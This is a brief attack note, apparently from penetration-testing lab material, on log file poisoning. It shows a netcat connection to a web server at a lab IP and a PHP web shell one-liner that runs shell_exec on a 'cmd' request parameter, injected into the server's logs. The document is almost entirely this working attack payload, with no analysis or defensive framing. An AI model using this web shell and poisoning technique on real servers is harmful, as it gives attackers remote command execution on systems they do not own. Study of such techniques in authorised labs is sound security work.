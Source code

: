 # log file poisoning
## starting nc
nc -nv 10.11.0.22 80

## inserting script: 
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>
